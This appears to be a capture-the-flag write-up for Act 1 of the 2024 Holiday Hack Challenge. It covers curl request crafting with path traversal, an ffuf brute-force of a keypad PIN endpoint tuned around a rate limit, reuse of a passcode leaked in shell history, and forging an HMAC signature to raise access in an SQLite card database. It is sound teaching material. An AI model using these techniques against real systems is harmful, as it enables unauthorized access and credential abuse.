# Act 1

[[#cURLing]]
[[#Frosty Keypad]]
[[#Hardware Hacking 101]]
## cURLing
**Location:** The Front Yard (Bow Ninecandle)


The cURLing challenge tests your skills with the curl command through many different obstacles. Let's start!
### Silver
#### Q1
Unlike the defined standards of a curling sheet, embedded devices often have web servers on non-standard ports.  Use curl to retrieve the web page on host "curlingfun" port 8080.
If you need help, run the 'hint' command.

```
curl curlingfun:8080
```
#### Q2
Embedded devices often use self-signed certificates, where your browser will not trust the certificate presented.  Use curl to retrieve the TLS-protected web page at https://curlingfun:9090/

*To tell curl to trust the self signed certificate of the website, we can use either the `--insecure` flag or the `-k` flag.*

```
curl --insecure https://curlingfun:9090
```
or
```
curl -k https://curlingfun:9090
```
#### Q3
Working with APIs and embedded devices often requires making HTTP POST requests. Use curl to send a request to https://curlingfun:9090/ with the parameter "skip" set to the value "alabaster", declaring Alabaster as the team captain.

*To send a POST request with curl, we need to use the `-X` flag with a value of `POST`. To send data in the post request, we use the `-d` flag and give it the expected data `"skip=alabaster"`. Don't forget to keep the `-k` flag there too!*

```
curl -X POST https://curlingfun:9090 -k -d "skip=alabaster"
```
#### Q4
Working with APIs and embedded devices often requires maintaining session state by passing a cookie.  Use curl to send a request to https://curlingfun:9090/ with a cookie called "end" with the value "3", indicating we're on the third end of the curling match.

*To send a cookie with curl, we use the `--cookie` flag.*

```
curl --cookie "end=3" -k https://curlingfun:9090
```
#### Q5
Working with APIs and embedded devices sometimes requires working with raw HTTP headers.  Use curl to view the HTTP headers returned by a request to https://curlingfun:9090/

*We can use the `-v` flag (verbose) to see more data from the curl response.*

```
curl -k -v https://curlingfun:9090
```
#### Q6
Working with APIs and embedded devices sometimes requires working with custom HTTP headers.  Use curl to send a request to https://curlingfun:9090/ with an HTTP header called "Stone" and the value "Granite".

*We can set a header with curl by using the `--header` flag. Put the data you want sent just after and separate the key and value with a colon.*

```
curl -k --header "Stone:Granite" https://curlingfun:9090
```
#### Q7
curl will modify your URL unless you tell it not to.  For example, use curl to retrieve the following URL containing special characters: https://curlingfun:9090/../../etc/hacks

*To stop curl from simplifying our url paths, we need to set the flag `--path-as-is`.*

```
curl -k --path-as-is https://curlingfun:9090/../../etc/hacks
```
### Gold
To get the gold achievement, Bow Ninecandle tells us we need to find a way to complete this challenge in 3 commands. I spent a while trying to combine a bunch of the previous curl commands together to simplify it to just 3 commands. This did not work.

Turns out, there is a file in the home directory (`/home/alabaster`) on the terminal named `HARD-MODE.txt` that tells us exactly how to do the hard version to get the Gold achievement:

```
$ cat HARD-MODE.txt

Prefer to skip ahead without guidance?  Use curl to craft a request meeting these requirements:

- HTTP POST request to https://curlingfun:9090/
- Parameter "skip" set to "bow"
- Cookie "end" set to "10"
- Header "Hack" set to "12ft"
```

To make a POST request we need to add `-X POST`. To add a parameter we can use the `-d` flag. To set a cookie, we can use the `--cookie` flag. To add a header we can use the `--header` flag. We also need the `-k` flag to skip the certificate verification of the server.

```
curl -k -X POST -d "skip=bow" --cookie "end=10" --header "Hack:12ft" https://curlingfun:9090/
```

If we send the above request, the following response prints to the console:

`Excellent!  Now, use curl to access this URL: https://curlingfun:9090/../../etc/button`

To do this, we need to use the `--path-as-is` flag to stop curl from merging the url path.

```
curl -k --path-as-is https://curlingfun:9090/../../etc/button
```

After sending that request, we get one final challenge:

`Great!  Finally, use curl to access the page that this URL redirects to: https://curlingfun:9090/GoodSportsmanship`

To make curl follow redirects, we need to use the `-L` flag.

```
curl -k -L https://curlingfun:9090/GoodSportsmanship
```

After that command, we receive the final message:

`Excellent work, you have solved hard mode!  You may close this terminal once HHC grants your achievement.`
## Frosty Keypad
**Location:** The Front Yard (Morcel Nougat)

We have been told that Santa's secret notes were put through a shredder. Our job is to try and rebuild the shredded pieces of the notes, so first thing we have to do is unlock the shredder to get access to the pieces. This challenge focuses on finding the combination for the shredder's keypad.
### Silver
The two hints for this challenge say that we need to first find a copy of the "Frosty Book" and a UV light to look at the fingerprints on the keypad.

We can find the book just behind the small crate to the far right of the challenge terminal:


We can find the flashlight behind the leftmost stack of crates just above the challenge terminal:


We can now use the UV flashlight on the keypad to see the fingerprints from previous users pressing the combination:


If we shine the light over all the keys, we can see that the following keys have fingerprints on them: (2, 6, 7, 8, Enter)

This tells us that the combination likely includes the numbers 2, 6, 7, and 8.

The next clue that we investigate is the "Frosty Book" that we found. If we look at the keypad, we can see that there is a sticky note on the side with five different groups of numbers. Each group has 3 numbers, each separated by colons. If we take a look at the [book](https://frost-y-book.com/), we find that there are 14 pages. If we use the groups of numbers on the sticky note as a lookup table, we can find a letter representing each group.

Example:
(number1:number2:number3) --> (pagenumber:wordnumber:characternumber)

Lets put that to the test and see what letters we find.

2:6:1 -> S
4:19:3 -> A
6:1:1 -> N
3:10:4 -> T
14:8:3 -> A

Code = SANTA = 72682

The letters SANTA correspond with the alphabetic values of the numbers we found from the fingerprints on the keypad. This gives us the PIN code `72682`. Silver done!
### Gold
To get the gold achievement, we have to find another code for the keypad. We already know that the PIN can only have the numbers 2, 6, 7, and 8. This means that if we assume the second combination is also 5 digits, that there are 1024 total combinations (4 possible values ^ 5 digits).

Looking at the network in dev tools, it seems that each time we submit a PIN code, it sends a request to the server at `https://hhc24-frostykeypad.holidayhackchallenge.com/submit`. Thos means we can fuzz for the other key code by brute forcing the combination and looking for a 200 response status. We will use ffuf to fuzz the PIN, but you could also use Burp Intruder's cluster bomb attack to do the same thing.

Lets first create a wordlist with all the combinations. I made the following javascript code to do that.
```js
const numbers = ["2", "6", "7", "8"];
numbers.forEach(num1 => {
    numbers.forEach(num2 => {
        numbers.forEach(num3 => {
            numbers.forEach(num4 => {
                numbers.forEach(num5 => {
                    console.log(`${num1}${num2}${num3}${num4}${num5}`);
                });
            });
        });
    });
});
```

Run the file and save the output to a text file.
```
node combinations.js > combinations.txt
```

Now we can use ffuf to fuzz the `/submit` url and find the right combinations from our wordlist `combinations.txt`. The PIN code is sent via a JSON body for each request in the form of `{ "answer": "12345" }`. We can use the `-rate` flag to limit the rate of our fuzzing to 1 request per second to get around the rate limit of the server. With 1024 possible 5 digit combinations this should take approximately 17 minutes.

```
ffuf -w ./combinations.txt -rate 1 -X POST -H "Content-Type:application/json" -d '{"answer":"FUZZ"}' -u https://hhc24-frostykeypad.holidayhackchallenge.com/submit -mc 200
```

Ffuf result:


New Code found: `22786`

Done!
## Hardware Hacking 101
### Part 1
In this challenge, we are tasked with getting Santa's Little Helper (SLH) working by connecting the right wires and correctly configuring the UART settings. If we can do this, we will be able to communicate with the reader on the chest and move on to the next step of getting the wish list back.

The first order of business is to correctly connect the wires to their matching terminal. There are four pins on the logic board labeled GRTV. Those each map to a pin on the UART board as follows:

G - Ground
T - Tx
R - Rx
V - Vcc

Also make sure to connect the USB-C cable from SLH to the UART board and switch the voltage regulator to 3V from 5V (top right of UART board). If you forget to switch it, the board will produce smoke and not function. Unlike the real world, you won't have to buy a new board, you can just try again.

The connected wires should look like this:


*Note: The colour of the wires doesn't matter. What matters is where each end of the wire is connected.*

Now, we need to figure out the settings on SLH to correctly communicate with and unlock the chest. After completing the [[#Frosty Keypad]] challenge, we received an item in our inventory called "One Thousand Little Teeny Tiny Shredded Pieces of Paper". This is the collection of shredded paper we got from opening the shredder in Frosty Keypad. If we put these shredded pieces together, we might be able to read something useful from Santa's notes.

Download the paper shreds [here](https://holidayhackchallenge.com/2024/shreds.zip)

Another item we need to use to our advantage is a python file called `heuristic_edge_detection.py` which is referenced in a hint for this challenge.

See the file here:


If we read the code in the python file, we can see that it references a directory "slices" in the main function. This is the directory that is created when the zip file we just downloaded is extracted. Run the python file from the same directory that the "slices" directory is in. After the script finishes, you should see a newly created file called `assembled_image.png`.


It's a bit hard to read because the image is assembled slightly out of order and backwards, but if you read from right to left, from the left half of the page first, you can make out the following:

Baud: 115200
Parity: EVEN
Data: 7 bits
Stop Bits: 1 bit
Flow Control: RTS

Once you turn on SLH, we see that the settings there match up to what this note says. The only thing missing is the setting for "Port". By process of elimination, I found that the correct port is `USB0`. Once all the correct settings are set, and cables connected properly, press the "S" button on SLH. A terminal should open with a success message.


### Part 2

Now that we have connected to the chest's lock system with Santas Little Helper (SLH) we can interface with the serial shell to try and unlock it. Our objective for this challenge is to modify the access cards database to gain entry to the chest.
#### Silver
One of the hints for this challenge mentions that sensitive data like passwords can end up in log files like *history*. Lets take a look at the history of the SLH shell and see what there is.



We can see that one of the commands run is the following :

`slh --passcode CandyCaneCrunch77 --set-access 1 --id 143`. 

The command appears to set the access card with id 143 to 1 (1 presumably meaning true). Let's try the same command but switch out the id for our target id of 42.

```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 42
```



Success!
#### Gold

For the gold achievement, we need to find another way to modify the access card database to give ourselves access.

If we load up the slh terminal again, we can see that there is a file in the home directory called `access_cards`. We can use the `file` command to figure out what kind of file it is.

```
file access_cards
```



Turns out this is an SQLite database file. We can use the `sqlite3` command to open the database.

Start the sqlite3 shell
```
sqlite3
```

Now we should be in the sqlite shell. The first thing we need to do is open the `access_cards` database.

```
.open access_cards
```

Now, that the database is open, lets list the tables in the database.

```
.tables
```



There are two tables.
1. access_cards
2. config

Let's take a look at the schema for  the`access_cards` database.

```
.schema access_cards
```



As we can see from the table schema, it is a list of access cards, each row having an id, a uuid, their access level, and a signature. Let's take a look at the entry for our access card (id 42).

```
select * from access_cards where id=42;
```



Currently our access is set to 0. We need to set our access level to 1 and calculate a new signature to match. One of the hints we were given for this challenge gives us a link to a CyberChef HMAC generator. To use it we need to know the form of the input and the key. Let's take a look at the other table `config` to see if we can find anything useful towards that.

```
select * from config;
```



Would you look at that, there we have the hmac secret as well as the form of the input we need to give to the hmac generator.

Let's create our hmac input. The form of the input is `{access}{uuid}`. We got those values from the database earlier.

access: `1`
uuid: `c06018b6-5e80-4395-ab71-ae5124560189`

HMAC Input:
```
1c06018b6-5e80-4395-ab71-ae5124560189
```

HMAC Secret:
```
9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e
```

Now let's use the input and secret to generate our new HMAC signature using CyberChef:

[See the CyberChef HMAC Generator here](https://gchq.github.io/CyberChef/#recipe=HMAC(%7B'option':'UTF8','string':''%7D,'SHA256'))



New Signature:
```
135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096
```

Now all we have to do is update the database row for access card 42 with our new access level and signature and we should be done.

```
update access_cards set access = 1, sig = "135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096" where id = 42;
```



Done!

See Next: [Act 2](../act2/act2)